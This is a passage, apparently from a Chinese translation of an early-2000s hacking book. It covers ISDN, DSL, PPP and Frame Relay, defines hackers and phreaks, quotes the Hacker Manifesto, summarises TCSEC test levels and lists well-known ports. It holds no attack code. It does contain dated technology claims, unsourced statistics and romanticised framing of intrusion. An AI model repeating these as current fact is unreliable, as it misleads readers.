    - **Enum**：列出硬件设备信息/设置。
    - **Hardware**：显示串行通信端口信息/设置。
    - **Network**：提供用户当前登录的网络信息。
    - **Security**：列出网络安全设置。
    - **Software**：显示特定软件的信息/设置。
    - **System**：列出系统启动和设备驱动程序信息以及操作系统设置。
- **HKEY_USERS**。包含关于登录到同一 Windows 95 系统的每个用户的桌面和用户设置的信息。每个用户在此标题下都有一个子键。如果只有一个用户，该子键为*默认*（default）。
- **HKEY_CURRENT_CONFIG**。包含关于当前硬件配置的信息，指向 HKEY_LOCAL_MACHINE。
- **HKEY_DYN_DATA**。包含关于系统中安装的即插即用设备的动态信息。当设备被动态添加或移除时，这里的数据会发生变化。

## 综合业务数字网技术

综合业务数字网（ISDN）是上一节所述的交换式模拟通信的数字版本。数字化使得传输可以包括语音、数据、图形、视频和其他服务。正如刚才解释的，模拟信号通过单个*信道*传输。信道可以描述为信息流动的管道。在 ISDN 通信中，信道是电信公司设备中的双向或全双工时间隙。

## ISDN 设备

ISDN 通信通过各种设备传输，包括：

- **终端**。它们分为 1 型（TE1）和 2 型（TE2）。TE1 是专用的 ISDN 终端（即计算机或 ISDN 电话），通过四线双绞数字链路连接到 ISDN 网络。TE2 是非 ISDN 终端（即标准电话），需要终端适配器才能连接到 ISDN 网络。
- **网络终端设备**。它们分为 1 型（NT1）和 2 型（NT2）。基本上，网络终端设备将 TE1 和 TE2（如上所述）连接到电信公司使用的常规双绞本地环路布线。

## ISDN 服务类型


ISDN提供两种类型的服务，即基本速率接口（BRI）和基群速率接口（PRI）。BRI由三个信道组成，一个D信道和两个B信道，用于传输流。在正常情况下，D信道为ISDN接口提供信令信息。D信道以16 Kbps运行，通常包含约9.6 Kbps的超额带宽，用于额外的数据传输。

双B信道以64 Kbps运行，主要用于承载数据、语音、音频和视频信号。基本上，D信道与B信道之间的关系是：D信道用于传输在B信道上进行服务请求所需的信令消息。BRI服务可用的总带宽为144 Kbps（2 x 64 Kbps + 16 Kbps；参见图3.13）。

在美国，PRI服务类型提供23个B信道和一个以64 Kbps运行的D信道，可用于传输带宽的总量为1.54 Mbps。

## ISDN与模拟技术的对比

前文所述的模拟传输固有的缺点已通过ISDN数字技术得到解决。例如，在噪声问题方面，ISDN本质上比模拟技术产生的噪声少80%。ISDN的速度速率在单个B信道上可比56 Kbps压缩模拟传输快四倍。此外，ISDN呼叫和连接握手大约需要两秒钟，而模拟呼叫则需要45秒。最后，锦上添花的是，ISDN技术支持负载平衡，如果需要更多带宽，还可以通过第二个B信道实现按需带宽。这一自动化过程由电话公司启用，并由D信道透明地管理。



图 3.13 基本速率接口（BRI）线缆规格。

## 数字用户线

从技术上讲，数字用户线（DSL）与ISDN BRI线路相当。而且，理论上，DSL是一种高速互联网连接，其速度可以是当前ISDN和模拟技术的6倍到30倍，而成本仅为同类服务的一小部分。此外，DSL使用家中已有的电话线。事实上，当连接到互联网时，你可以使用同一条电话线进行通话。这些是专用的在线连接，全天候24小时保持连接，因此你永远不会失去与互联网的连通。并且，与其他技术（如电缆调制解调器）不同，使用DSL时你不需要与其他人共享你的线路。话虽如此，目前，在可用地区，DSL服务只能在电话公司约2.5英里半径范围内提供。

各种不同类型的DSL，统称为xDSL，包括：

- **非对称数字用户线（ADSL）**。通过家中已有的普通单对双绞线向家庭进行单向T1信号传输。ADSL调制解调器连接在双绞铜线上。ADSL通常配置有更大的下行带宽
- **高比特率数字用户线（HDSL）**。作为最古老的DSL技术，HDSL仍被电话公司用于部署1.5 Mbps的T1线路。HDSL需要两条双绞线。
- **ISDN数字用户线（IDSL）**。支持每个方向高达144 Kbps的传输速率，并可在任何支持ISDN的电话线上进行配置。无论用户距离中央局（CO）有多远，IDSL都可以部署。
- **速率自适应数字用户线（RADSL）**。使用修改后的ADSL软件，RADSL使调制解调器能够自动并动态地调整传输速度。这通常允许距离较远的客户获得良好的数据速率。
- **单线数字用户线，即对称数字用户线（SDSL）**。一种修改后的HDSL软件技术；SDSL旨在通过单条双绞线在距离中央局（CO）少于8000英尺的范围内提供双向1.5 Mbps的速率。
- **甚高速数字用户线（VDSL）**。也称为宽带数字用户线（BDSL），VDSL是最新的DSL技术。它可以提供高达25 Mbps的下行速率和3 Mbps的上行速率。这种速度的提升只能在短距离内实现，最长可达1000英尺。

## 点对点技术

点对点协议（PPP）是一种封装协议，提供通过串行或租线点对点链路传输IP数据包的功能。PPP与任何数据终端设备/数据通信设备（DTE/DCE）接口兼容，无论是内部接口（集成在路由器中）还是外部接口（连接到外部数据服务单元（DSU）。DTE是作为数据源或目的地的设备，通过DCE设备（如DSU或调制解调器）连接到网络。DCE提供时钟信号并将流量转发给DTE。DSU是一种高速调制解调器，将DTE适配到租线（如T1），并提供信号定时等功能（参见图3.14的图示）。通过四个步骤，PPP支持在点对点连接上建立、配置、维护和终止通信会话的方法。

### PPP操作

PPP通信过程基于通过直接链路传输数据报。PPP数据报传输过程可分为三个主要部分，包括数据报封装、链路控制协议（LCP）和网络控制协议（NCP）初始化：

- **数据报封装**。PPP会话期间的数据报封装由高级数据链路控制（HDLC）协议处理。HDLC支持同步、半双工和全双工传输（有关双工传输的更多信息，请参见第1章）。HDLC的主要功能是通过串行线路建立本地站点和远程站点之间的链路。



**图 3.14** T1线路连接到DSU，DSU通过DTE电缆连接到路由器。路由器连接到局域网交换机或集线器，因为它在局域网（LAN）和广域网（WAN）之间路由数据。

- **链路控制协议（LCP）**。如前所述，通过四个步骤，PPP使用LCP支持建立、配置、维护和终止通信会话。
    1. LCP打开连接并通过配置确认帧协商配置参数。
    2. 可选的链路质量检查以确定是否有足够的资源用于网络协议传输。
    3. NCP将协商网络层协议配置和传输。
    4. 假设没有发生载波丢失或用户干预，LCP将启动链路终止。
- **网络控制协议（NCP）**。在PPP通信过程的第3步中启动，NCP建立、配置并传输多个同时进行的网络层协议。

### 帧结构

根据国际标准化组织（ISO）HDLC标准定义的PPP帧结构由六个字段组成（如图3.15所示）。

- **标志（Flag）**。一个1字节字段，指定帧的开始或结束。
- **地址（Address）**。一个1字节字段，包含网络广播地址。
- **控制（Control）**。一个1字节字段，在未排序帧中启动用户数据传输。
- **协议（Protocol）**。一个2字节字段，指示所封装的协议。
- **数据（Data）**。在协议字段中指定的封装协议的数据报。
- **帧校验序列（FCS）**。一个2到4字节的字段，包含FCS协商信息（有关FCS操作的更多信息，请参见第1章）。

| 标志 | 地址 | 控制 | 协议 | 数据 | FCS |
| :--- | :--- | :--- | :--- | :--- | :--- |

**图 3.15** PPP帧的六个字段及其与HDLC过程的关系。

## 帧中继技术

本节概述了一种流行的分组交换通信介质，称为帧中继。本节还将描述帧中继的操作、设备、拥塞控制、本地管理接口（LMI）和帧格式。

涉及帧中继的分组交换技术使多个网络能够共享广域网介质和可用带宽。帧中继通常比点对点租线成本更低。直接租线的成本基于端点之间的距离，而帧中继订阅者则基于期望的带宽分配产生成本。帧中继订阅者将与其他订阅者共享路由器、数据服务单元（DSU）和骨干带宽，从而降低使用成本。如果订阅者需要专用带宽，即*承诺信息速率*（CIR），他们需要支付更多费用以保证在繁忙时段的带宽。


## 操作、设备、数据链路连接标识符与虚电路

参与帧中继广域网（WAN）的设备包括数据终端设备（DTE）和数据电路终接设备（DCE）。客户所有的设备，如路由器和网络站点，是 DTE 设备的示例。供应商所有的设备提供交换和时钟服务，属于 DCE 设备类别。图 3.16 展示了一个帧中继广域网的示例。

设备间的数据链路通信通过标识符连接，并实现为帧中继*虚电路*。虚电路被定义为通过帧中继广域网在两个 DTE 设备之间的逻辑连接。这些电路支持双向通信；从一端到另一端的标识符被称为*数据链路连接标识符*（DLCI）。每个通过帧中继广域网传输的帧都包含唯一编号，用于标识虚电路的所有者，并将其路由到正确的目的地。虚电路可以穿过任意数量的 DCE 设备。因此，在帧中继中，发送设备和接收设备之间存在许多路径。就本概览而言，图 3.16 仅展示了帧中继广域网内的三个分组交换机。在实际中，可能会有 10 个或 20 个路由器整合从一端到另一端的众多潜在路径。

帧中继中有两种类型的虚电路，*交换虚电路*（SVC）和*永久虚电路*（PVC），定义如下：



图 3.16 帧中继广域网。

- **交换虚电路（SVC）。** 用于不频繁数据传输的周期性、临时通信会话。SVC 连接需要四个步骤：
    - DTE 设备之间的呼叫建立。
    - 通过临时虚电路进行数据传输。
    - 终止前定义的空闲期。
    - 交换虚电路终止。

SVC 可以比作 ISDN 通信会话，因此使用相同的信令协议。

- **永久虚电路（PVC）**。用于帧中继中 DTE 设备之间频繁数据传输的永久通信会话。PVC 连接只需要两个步骤：
    1. 通过永久虚电路进行数据传输。
    2. 数据传输会话之间的空闲期。

PVC 目前是在帧中继广域网中更流行的通信连接。

### 拥塞通知与差错校验

帧中继采用两种机制进行拥塞通知：*前向显式拥塞通知*（FECN）和*后向显式拥塞通知*（BECN）。通过帧中继标头中的一个比特位，FECN 和 BECN 有助于通过报告拥塞区域来控制带宽降级。当数据从一个 DTE 设备传输到另一个 DTE 设备并经历拥塞时，交换机等 DCE 设备会将 FECN 位设置为 1。到达目的地后，目标 DTE 设备将被通知拥塞情况，并将此信息传递给高级协议以启动流控。如果发送回源发送设备的数据包含 BECN 位，则会发送通知，表明网络中的某条特定路径发生拥塞。

在从源到目的地的数据传输过程中，帧中继利用通用的循环冗余校验（CRC）机制来验证数据完整性，如本章前面的以太网部分所述。

### 本地管理接口

帧中继本地管理接口（LMI）的主要功能是管理 DLCI。当 DTE 设备轮询网络时，LMI 报告 PVC 是活跃还是非活跃状态。当 DTE 设备在帧中继广域网中变为活跃时，LMI 确定对 DTE 设备可用的哪些 DLCI 是活跃的。DTE 和 DCE 设备之间的 LMI 状态消息提供了通信所需的同步。

LMI 帧格式由图 3.17 所示的九个字段组成，定义如下列表：

- **标志（Flag）。** 指定帧的开始。
- **LMI DLCI。** 指定该帧是 LMI 帧，而不是标准的帧中继帧。
- **无编号信息指示器（UII）。** 将轮询位设置为 0。

| 标志 | LMI DLCI | UII | PD | 呼叫引用 | 消息类型 | VIE | FCS | 标志 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| | | | | | | | | |

**图 3.17** 本地管理接口帧格式。

| 标志 | 地址 | 数据 | FCS | 标志 |
|---|---|---|---|---|
| | | | | |

图 3.18 帧中继帧格式。

- **协议鉴别符（PD）。** 始终包含一个值，将帧标记为 LMI 帧。
- **呼叫引用。** 包含零，因为该字段目前未使用。
- **消息类型。** 指定以下消息类型：
    - 状态查询消息。允许设备请求状态。
    - 状态消息。提供对状态查询消息的响应。
- **可变信息元素（VIE）。** 指定两个独立的信息元素：
    - IE 标识符。标识信息元素（IE）。
    - IE 长度。指定 IE 的长度。
- **帧校验序列（FCS）。** 验证数据完整性。
- **标志。** 指定帧的结束。

## 帧中继帧格式

以下描述解释了标准的帧中继帧格式及其字段（如图 3.18 所示）：

- 标志。指定帧的开始。
- 地址。指定 10 位 DLCI 值、3 位拥塞控制通知，以及 FECN 和 BECN 位。
- 数据。包含封装的高层数据。
- 帧校验序列（FCS）。验证数据完整性。
- 标志。指定帧的结束。

## 展望未来

第一部分和第二部分的入门内容旨在更新和/或向你传授深入黑客技术所需的技术。首先，让我们详细回顾一下统治黑客界的工具、技术和漏洞利用。从下一部分获得的知识涉及查询过程，用于发现和研究目标网络，并为漏洞扫描和渗透攻击做准备。

## 第三部分

揭露漏洞

### 少量术语

#### 谁是黑客、破解者、电话迷和赛博朋克？

我们的第一个“幕间休息”通过暂停时间来定义*hacker*（黑客）、*cracker*（破解者）、*phreak*（电话迷）和*cyberpunk*（赛博朋克）这些术语。这是必要的，因为它们经常互换使用；例如，黑客也可以是一个破解者；电话迷可能会使用黑客技术；等等。为了帮助精确指出这些特定术语的内涵，让我们定义它们之间的关联：

- *Hacker*（黑客）通常是指完全沉浸在计算机技术和计算机编程中的人，喜欢检查操作系统和其他程序的代码以了解其工作原理。然后，这个人会利用其计算机专业知识从事非法目的，如未经授权访问计算机系统，以及篡改这些系统上的程序和数据。此时，这个人会窃取信息、实施工业间谍活动，并安装后门、病毒和木马。
- *Cracker*（破解者）是指绕过或击败网络或特定计算机系统的安全措施以获取未授权访问的人。破解者的经典目标是从计算机系统中非法获取信息，并非法使用计算机资源。然而，大多数人的主要目标仅仅是闯入系统。
- *Phreak*（电话迷）是指闯入电话网络或其他受保护的电信系统的人。例如，在 20 世纪 70 年代，电话系统使用切换信号中的可听音调；电话迷使用他们自行构建的硬件来匹配音调以窃取长途服务。尽管当今大多数服务提供商使用了复杂的安全屏障，但此类服务在全球范围内仍然相当常见。
- *Cyberpunk*（赛博朋克）可以被视为一种近来的变异，结合了黑客、破解者和电话迷的特征。这确实是一种极具危险性的组合。

成功地防止被黑客攻击已成为不可否认的现实，一个人必须像黑客一样思考，像黑客一样运作，因此，成为黑客。

**注意** 承认传奇黑客*Shadowlord* 以及希望保持匿名的地下黑客社区各类成员的参与，本幕间休息的其余部分将讨论黑客背景、黑客风格以及黑客肖像。

### 什么是黑客行为？

黑客行为可以被举例为创造力的不当应用；无论结果是恶作剧、快速的漏洞利用还是精心策划的安全违规，人们都必须钦佩其中所应用的技术专业知识。

**注意** 为了简洁起见，本节将黑客、破解者和电话迷的特征视为一个单一实体来处理。

然而，对黑客行为最好的描述归功于 AntiOnline（一个密切关注黑客活动的在线安全网站）的创始人 John Vranesevich。他将黑客行为称为


“典型灵感的产物。”这些灵感包括社会、技术、政治、经济和政府动机：

-   **社会型**黑客是最常见的类型，可以类比为喷绘涂鸦的“天才”艺术家，他们在宏伟的建筑上喷洒破坏性的油漆。这种性格通常源于控制欲或渴望获得接纳和/或群体优越感。
-   **技术型**黑客受技术进步停滞的激励。通过利用缺陷，这些人迫使软件和硬件开发向前发展。
-   类似于活动家的理由，**政治型**黑客有一条他希望或被传达的信息。这一需求迫使黑客例行地瞄准新闻界或政府机构。
-   **经济型**黑客类似于普通窃贼或银行劫匪。此人为了个人利益或利润实施诸如企业间谍活动和信用卡欺诈等犯罪。
-   尽管所有形式的黑客行为都是非法的，但没有任何一种能与**政府型**黑客引发的影响相比拟。政府将此类型比作普通的恐怖分子。

## 揭露罪犯

计算机安全问题不仅包括局域网上的硬件，更重要的是，这些系统所包含的信息以及远程访问漏洞的潜在风险。

市场调研显示，计算机安全日益成为技术公司最关注的领域。在一项研究中，工业安全管理人员将计算机安全列为对人、建筑物和资产构成的首要威胁（Check Point Software Technologies，2000年）。关于计算机黑客攻击、工业间谍活动或员工破坏行为的报道呈指数级增长。一些统计数据宣称，多达 85% 的企业网络存在漏洞。

为了成功“锁定”计算机世界，我们必须从保护本地工作站及其网络开始。来自 Forrester 等管理公司的研究表明，超过 70% 的安全高管透露，他们的服务器和互联网平台正开始响应改进安全的需求而浮出水面。根据防火墙供应商 Check Point Software 首席执行官、位于加利福尼亚州红木城的 Deborah Triant 的说法，在线企业对业务（B2B）交易将在 2002 年增长至 3270 亿美元，而去年为 80 亿美元。但为了保护本地网络和在线交易，行业必须超越仅仅销售防火墙软件和长期服务，并提供易受攻击的安全澄清。获取这些知识的最佳方式是向真正的专业人士学习，也就是黑客、破解者、电子欺诈者和赛博朋克。

这些所谓的“专业人士”是谁？普遍的理解大多基于未经证实的故事和电影形象。我们确实知道，自计算机技术创立以来，计算机黑客就已存在。第一起黑客案件报告于 1958 年。根据罪犯的说法，并非所有黑客都相同，但他们有着共同的追求——对知识的渴望。以下摘自臭名昭著的黑客导师 Mentor 的片段，揭示了这一地下社区的很多情况：

> 今天又有一个人被抓了；报纸上全是：“青少年因计算机犯罪丑闻被捕”，“黑客因篡改银行账目被捕”。
>
> “该死的孩子们。他们都一样。”

但你在你那套三件式西装心理学和 1950 年代的技术头脑中，曾否透过黑客的眼睛看世界？你是否曾好奇是什么驱使他，什么力量塑造了他，什么可能塑造了他？

我是一个黑客；进入我的世界……我的世界始于学校。我比大多数孩子聪明；他们教我们的这些废话让我无聊。

“该死的差等生。他们都一样。”

我在初中或高中，听了老师第十五次讲解如何约分分数。我懂了。“不，史密斯小姐，我没有展示步骤。我在脑海里做的……”

“该死的孩子。可能是抄的。他们都一样。”

我今天有一个发现。我找到了一台计算机。等一下；这太酷了。它按我的意愿行事。如果它出错，是因为我搞砸了。不是因为它不喜欢我，或者被我威胁到，或者认为我是个聪明蛋，或者它不喜欢教学不应当在这里。

“该死的孩子；他只做游戏。他们都一样。”

然后它就发生了：一扇门通向一个世界，像海洛因通过瘾君子的血管一样通过电话线涌入；一个电子脉冲被发出；寻求躲避日常无能的避难所；找到一个公告板。“就是这个……这就是我所属的地方。我认识这里的每个人……即使我从未见过他们，从未与他们交谈，可能再也听不到他们的声音……我认识你们所有人……。”

“该死的孩子们。又占用电话线了。他们都一样。”

见鬼了，我们确实都一样；在学校里，我们饿着肚子想要牛排，却被喂婴儿食品。你让滑落的几块肉早就被嚼烂且无味。我们被独裁者统治，或被冷漠者忽视。少数有东西可教的人发现我们是愿意学习的学生，但这些人就像沙漠中的几滴水。这是我们现在的……电子和开关的世界，波特率之美。我们利用了已经存在的服务，而不为那些本可以很便宜（如果不是由贪婪的牟利者运营的话）的东西付费。你称我们为罪犯。我们在探索。你称我们为罪犯。我们追求知识。你称我们为罪犯。我们存在没有肤色，没有国籍，没有宗教偏见。你称我们为罪犯。你们制造原子弹；你们发动战争；你们谋杀、欺骗、向我们撒谎，并试图让我们相信这是为我们好，然而我们是罪犯……

是的，我是一名罪犯。我的罪行是好奇心。我的罪行是依据言行而非外貌评判他人。我的罪行是智力上胜过你们，这是你们永远不会原谅我的。我是一个黑客，这是我的宣言。你们可以阻止这个人，但你们无法阻止我们所有人……毕竟，我们都是一样的。

无论如何看待黑客是罪犯，在每个组织中，似乎都有志在成为黑客的人的位置。想一想；谁更适合保护网络，受训的管理员还是隐蔽的黑客？黑客、破解者、电子欺诈者和赛博朋克希望因其学习的欲望以及在引导世界走向未来的技术知识而获得认可。根据地下组织成员的说法，社会不能继续表现出对黑客的偏见。黑客希望民众认识到，他们之所以黑客，是因为他们达到了平台期；对他们来说，不存在更高级的学习层次。对他们来说，公众将黑客、破解者、电子欺诈者和赛博朋克视为一个恶意群体是不公平的。不过，记得 Mentor 说的：“我是一个黑客，这是我的宣言。你们可以阻止这个人，但你们无法阻止我们所有人……毕竟，我们都是一样的。”

## 黑客画像

多年来，为黑客建立画像一直是一项困难，甚至可以说是徒劳的工作。根据 FBI 1999 年关于网络罪犯的发布，画像起初是书呆子，然后是少年天才；有时黑客被视为反社会的差等生；有时又是社交专家。大多数黑客被描述为朋克和狂野，因为他们思维不同，并反映在他们的风格中。这些如今都不再真实。黑客可能是邻居家男孩或女孩。一项对 200 名知名黑客的调查显示，黑客的平均年龄为 16-19 岁，其中 90% 为男性；70% 居住在美国。他们平均每周花 57 小时在计算机上；98% 的人认为他们黑客行为永远不会被抓。典型的黑客可能至少具备以下三个特质：

-   精通 C、C++、CGI 或 Perl 编程语言。
-   了解 TCP/IP，即互联网的网络协议。
-   是互联网的重度用户，通常每周超过 50 小时。
-   熟悉至少两个操作系统，其中一个几乎肯定是 UNIX。
-   曾是或是计算机专业人员。
-   是过时计算机硬件和软件的收藏者。

这些特征中有哪一个描述了您？您符合 FBI 的画像吗？他们可能在监视您吗？从黑客画像中进一步的观察表明，许多不同的黑客群体中普遍存在针对安全级别的黑客攻击。特定的渗透针对安全级别 C1、C2、B1 和 B2。

## 安全级别

国家计算机安全中心（NCSC）是美国政府负责评估软件/硬件安全的机构。它根据其出版物中列出的一组要求进行评估，该出版物通常被称为“亮橙色书”（Bright Orange Book）。这本书涉及 NCSC 在以下小节中定义的级别相关的安全漏洞。

## 安全级别 C1：测试条件生成

ADP 系统的安全机制应进行测试，并发现其如系统文档所述那样运行 [《可信计算机系统评估准则》（TCSEC）第一部分，第 2.1 节]。本文件中定义的可信计算机系统评估准则将系统分为四个广泛的安全保护增强的层级划分。它们为评估内置于自动数据处理系统产品中的安全控制的有效性提供了基础。这些准则在制定时考虑了三个目标：(a) 为用户提供一把尺子，以评估在计算机系统中进行机密或其他敏感信息的安全处理时可以放置多少信任；(b) 为制造商提供指导，告诉他们在新发布的、广泛可用的可信商业产品中应内置什么，以满足敏感应用的信任要求；(c) 为在采购规范中规定安全要求提供基础。对安全处理规定了两种类型的要求：(a) 特定安全功能要求和 (b) 保证要求。后一些要求使评估人员能够确定所需功能是否存在并按预期运行。这些准则的范围应应用于组成可信系统的组件集合，而不一定应用于每个系统组件单独。因此，系统的某些组件可能完全不信任，而其他组件可能按低于或高于视为完整系统的可信产品的评估级别单独进行评估。在范围高端的可信产品中，参考监视器的强度如此之高，以至于大多数组件可以完全不信任。虽然准则旨在


在将标准应用于具有自身功能需求、应用或特殊环境（例如，通信处理器、过程控制计算机以及一般的嵌入式系统）的具体系统时，可能需要对这些安全功能要求进行解释。 基础保证要求可以应用于整个 ADP 系统或应用程序处理环境的全频谱，而无需特别解释。

对于此类系统，测试条件应根据系统文档生成，其中包括《安全功能用户指南》（SFUG）、《可信设施手册》（TFM）、描述每个可信计算基（TCB）原语的系统参考手册，以及定义保护理念及其 TCB 实现的系统设计文档。 例如，SFUG 和手册页面都说明了标识和身份验证机制的工作原理，以及特定的 TCB 原语是否包含相关的安全和问责机制。 每个原语（如果有）强制执行的 自由访问控制（DAC）以及标识和身份验证条件用于定义测试计划的测试条件。

## 测试覆盖范围

应进行测试，以确保没有明显的方式让未经授权用户绕过或以其他方式破坏 TCB 的安全保护机制 [TCSEC，第一部分，第 2.1 节]。

团队应独立设计和实施至少五项针对特定系统的测试，以试图绕过系统的安全机制 [TCSEC，第二部分，第 10 节]。

这两项 TCSEC 要求/准则定义了这一安全类别的安全测试范围。 由于每个 TCB 原语都可能包含与安全相关的机制，因此安全测试将包括每个原语至少五个测试条件。 此外，由于不需要也不建议对 C1 类系统进行源代码分析，因此采用边界值覆盖的整体功能测试（即黑盒方法）是该类别的一种适当测试方法。 每个测试条件的边界值覆盖要求至少调用每个 TCB 原语两次，一次用于条件的阳性结果，一次用于阴性结果。 这种覆盖可能还需要每个条件两次以上的调用。

每当 TCB 原语涉及多种类型的对象时，每个条件都会针对每个相关对象类型重复执行，包括其阳性和阴性结果。 每个 TCB 原语可能需要大量的测试调用，因为每个测试条件实际上可能包含多个相关条件，这些条件应相互独立地测试。

## 安全类别 C2：测试条件生成

测试还应包括对明显缺陷的搜索，这些缺陷会导致资源隔离被违反，或允许对审计和身份验证数据进行未经授权的访问 [TCSEC，第一部分，第 2.2 节]。

这些新增要求仅涉及测试条件的新来源，而不涉及新的测试方法或新的覆盖方法。 应考虑以下测试条件的新来源：

- **资源隔离条件。** 这些测试条件涉及实现特定系统资源（例如，对象类型或系统服务）的所有 TCB 原语。 实现服务的 TCB 原语的测试条件可能与实现不同类型对象的 TCB 原语的测试条件有所不同。 因此，可能需要为 TCB 服务生成新的条件。 对于某些服务，仅重复其他 TCB 原语定义的测试条件可能是不够的。
- **保护审计和身份验证数据的条件。** 由于审计和身份验证机制以及数据均由 TCB 保护，因此保护这些机制及其数据的测试条件类似于证明 TCB 保护机制具有防篡改性和不可绕过性的测试条件。 例如，这些条件表明，特权 TCB 原语以及审计和用户身份验证文件都无法被普通用户访问。

## 测试覆盖范围

尽管 C1 类的测试覆盖范围建议为每种对象类型实现每个测试条件，但资源特定测试条件的覆盖范围还要求为每种服务类型包含每个测试条件（当测试条件与服务相关时）。 例如，证明用户被拒绝直接访问共享打印机的测试条件，将在共享磁带驱动器上重复执行，并适当修改测试数据（即测试环境设置、测试参数和结果）。

## 安全类别 B1：测试条件生成

安全测试的目标应是：发现所有会导致 TCB 外部的主体读取、更改或删除在 TCB 执行的强制或自由安全策略下通常被拒绝的数据的设计和实施缺陷； 并确保任何主体（在未经授权的情况下）无法导致 TCB 进入无法响应其他用户发起的通信的状态 [TCSEC，第一部分，第 3.1 节]。

B1 类的安全测试要求比 C1 类或 C2 类的要求更为广泛，无论是在测试条件生成还是覆盖分析方面。 涉及用户对数据访问的测试条件来源包括 TCB 实施的强制策略和自由策略。 这些策略由非正式策略模型定义，该模型在 TCB 内的解释允许为每个 TCB 原语推导测试条件。 尽管 TCSEC 中未明确说明，但通常预期 C1 类和 C2 类的所有相关测试条件也将用于 B1 类系统。

## 测试覆盖范围

所有发现的缺陷都应被消除或中和，并对 TCB 进行重新测试，以证明它们已被消除且未引入新缺陷 [TCSEC，第一部分，第 3.1 节]。

团队应独立设计和实施至少十五项针对特定系统的测试，以试图绕过系统的安全机制 [TCSEC，第二部分，第 10 节]。

尽管覆盖分析仍然是基于边界值的，但 B1 类系统的安全测试建议为包含与安全相关机制的每个 TCB 原语生成至少 15 个测试条件，以涵盖强制策略和自由策略。 然而，在实践中，通常会根据对（非正式）安全模型的解释生成数量多得多的测试条件。 发现错误的移除或中和以及 TCB 的重新测试不需要额外的覆盖分析类型。

## 安全类别 B2：测试条件生成

测试应证明 TCB 实现与描述性顶层规范（DTLS）一致 [TCSEC，第一部分，第 3.2 节]。

此要求意味着 B2 类系统的测试条件和覆盖分析比 B1 类的更为广泛。 在 B2 类系统中，描述性顶层规范（DTLS）（其必须完整且准确）中记录的所有访问控制和问责机制都是测试条件的来源。 原则上，为 B2 类系统生成的测试条件类型与为 B1 类系统生成的相同，因为首先，在两个类别中，测试条件都可以从安全策略模型（B1 类为非正式，B2 类为正式）的解释中生成，其次，在 B2 类中，DTLS 包含了安全策略模型的精确解释。 然而，在实践中情况并非如此，因为安全策略模型没有建模大量仍然包含在 B2 类系统 DTLS 中的机制。 因此，B2 类系统中的测试条件数量和类型可能比 B1 类系统明显更多，因为每个 TCB 原语的 DTLS 可能包含额外类型的机制，例如可信设施管理。

## 测试覆盖范围

至少某些 TCB 原语具有少量的单独测试条件并不罕见。 如前一节定义的方法所建议，为许多 TCB 原语重复这些条件以实现均匀覆盖既不切实际也不必要。 当这些原语引用相同的对象类型和服务时，情况尤其如此。 由于这个原因，并且由于满足其他要求需要在 B2 类系统中进行源代码分析，因此建议对 TCB 中原语共享大部分代码的部分使用灰盒测试方法。 请注意，任何系统的 DTLS 并不一定提供用于证明 TCB 防篡改能力和不可绕过性的测试条件。 这些条件应单独生成。

## 启动

提供网络罪犯定义、画像和安全类别信息指南，旨在指示本书其余部分所述的高度推荐的“黑客”攻击渗透测试的程度和复杂性。 希望使用“国防部可信计算机系统评估标准”以及地下黑客技术进行自身评估的个人和组织，可能会发现以下章节对规划和使用非常有用。


在频谱的另一端，UDP 提供无连接的分组交换服务，提供不可靠、尽力而为的数据传输。这意味着不保证数据报的到达或已交付数据包的正确排序。表 4.1 和表 4.2 分别列出了 TCP 和 UDP 端口及其服务的简略清单（完整清单请参阅本书末尾的附录 C）。

## 知名端口漏洞

尽管已经有许多书籍专门论述本节中定义的某些端口和服务的具体细节，但就本书而言，以下服务将从攻击者或更具体地说，作为“黑客策略”的一部分的角度来介绍。

### 表 4.1 知名 TCP 端口和服务

| 端口号 | TCP 服务 | 端口号 | TCP 服务 |
| :---------- | :---------- | :---------- | :---------- |
| 7 | echo | 115 | sftp |
| 9 | discard | 117 | path |
| 11 | systat | 119 | nntp |
| 13 | daytime | 135 | loc-serv |
| 15 | netstat | 139 | nbssession |
| 17 | qotd | 144 | news |
| 19 | chargen | 158 | tcpprepo |
| 20 | FTP-Data | 170 | print-srv |
| 21 | FTP | 175 | vnet |
| 23 | telnet | 400 | vnet0 |
| 25 | SMTP | 512 | exec |
| 37 | time | 513 | login |
| 42 | name | 514 | shell |
| 43 | whois | 515 | printer |
| 53 | domain | 520 | efs |
| 57 | mtp | 526 | tempo |
| 77 | rlogin | 705 | acctinfo |
| 80 | http | 706 | acctslave2 |
| 88 | kerberos | 707 | acctdisk |
| 102 | iso-tsap | 750 | kerberos |
| 103 | dictionary | 751 | kerberos_mast |
| 104 | X400-snd | 752 | passwd_server |
| 105 | csnet-ns | 753 | userreg_serve |

### 表 4.2 知名 UDP 端口和服务

| 端口号 | UDP 服务 | 端口号 | UDP 服务 |
|---|---|---|---|
| 7 | echo | 514 | syslog |
| 9 | discard | 515 | printer |
| 13 | daytime | 517 | talk |
| 17 | qotd | 518 | ntalk |
| 19 | chargen | 520 | route |
| 37 | time | 525 | timed |
| 39 | rlp | 531 | rvd-control |
| 42 | name | 533 | netwall |
| 43 | whois | 550 | new-rwho |
| 53 | dns | 560 | rmonitor |
| 67 | bootp | 561 | monitor |
| 69 | tftp | 700 | aectmaster |
| 111 | portmap | 701 | aectslave |
| 123 | ntp | 702 | aect |
| 137 | nbname | 703 | aectlogin |
| 138 | nbdatagram | 704 | aectprinter |
| 161 | snmp | 705 | acctinfo |
| 162 | snmp-trap | 706 | acctslave2 |
